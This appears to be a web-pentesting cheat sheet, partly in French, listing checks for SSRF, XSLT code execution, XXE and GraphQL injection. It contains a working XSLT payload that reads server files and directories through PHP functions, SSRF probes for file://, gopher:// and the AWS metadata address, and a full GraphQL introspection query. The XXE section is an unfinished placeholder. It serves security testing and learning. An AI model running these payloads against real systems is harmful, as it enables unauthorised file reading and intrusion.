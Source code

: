 **SSRF**  
- Is it possible to read files from a URI ? Using protocols ``<file://>``; ``<gopher://>``, etc.
- Is the webapp interacting with a cloud server ? (ex REST requests to AWS ``http://169.254.169.254/`` )
- Is the webapp interacting with internal REST interfaces or internal database HTTP interfaces (ex : MongoDB, etc.) ?  

**XSLT code execution**  
exemple :  
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">  
<xsl:template match="/">  
<xsl:value-of select="php:function('file_get_contents','index.php')"/>  
<xsl:value-of select="php:function('opendir','/directory/')"/>  
<xsl:value-of select="php:function('chdir','/directory/')"/>  
<xsl:value-of select="php:function('readdir')"/>  
</xsl:template>  
</xsl:stylesheet>  


**XXE (XML External Entity)**  
exemple dans un flux rss :   
TODO 

**GraphQL injection**  
- Use https://github.com/IvanGoncharov/graphql-voyager with the output of the introspection query :   
```  
__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}
```  
- query={__schema{types{name,fields{name}}}} to enumerate 
- mutations : Mutations are used to make changes in the server-side
mutations examples : `mutation {
  createComment(name:\"Yolo\", postId:2) {
    movies {
      name
      rating
    }
  }
}
`
- Some GraphQL apps may block the introspection query, it is thus possible to use fuzzing (https://github.com/nikitastupin/clairvoyance) & extensions (https://github.com/forcesunseen/graphquail) for building the GraphQL scheme       
  